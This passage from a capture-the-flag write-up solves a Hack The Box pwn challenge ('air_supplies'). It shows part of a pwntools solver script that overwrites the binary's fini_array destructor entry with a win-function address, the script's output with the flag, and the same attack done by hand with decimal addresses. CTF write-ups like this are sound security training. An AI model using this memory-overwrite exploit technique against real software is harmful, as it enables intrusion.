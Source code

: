 ```python
	sla(':', str(flag))
	log.info('"__do_global_dtors_aux_fini_array_entry": 0x{:x}'.format(dtors))
	log.info('"_": 0x{:x}'.format(flag))
	log.info('Overwriting 0x{:x} with 0x{:x}..'.format(dtors, flag))
	ru('HTB')
	fl = ru('}')
	log.success('Flag: HTB' + fl.decode())

def pwn():
	sla('>', '2')
	overwrite()
	
if __name__ == '__main__':
	pwn()
```

### PoC: :checkered_flag:

```console
$ ./solver.py 
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] "__do_global_dtors_aux_fini_array_entry": 0x601100
[*] "_": 0x40096f
[*] Overwriting 0x601100 with 0x40096f..
[+] Flag: HTB{dr0p_1t_l1k3_1t5_h0t_4g3nt!}
```

This can be done without a script as long as we have the right values:

```console
$ ./air_supplies 
Agent, are you informed about the mission?
1. No.
2. Yes, I am ready.
> 2
We are ready to proceed then!
Insert what kind of supply to drop: 6295808
Insert location to drop: 4196719
You did your best Agent, your mission here is over..

You found the correct packet to drop Agent! Good job!
Here is a gift for you: 
HTB{dr0p_1t_l1k3_1t5_h0t_4g3nt!}
```
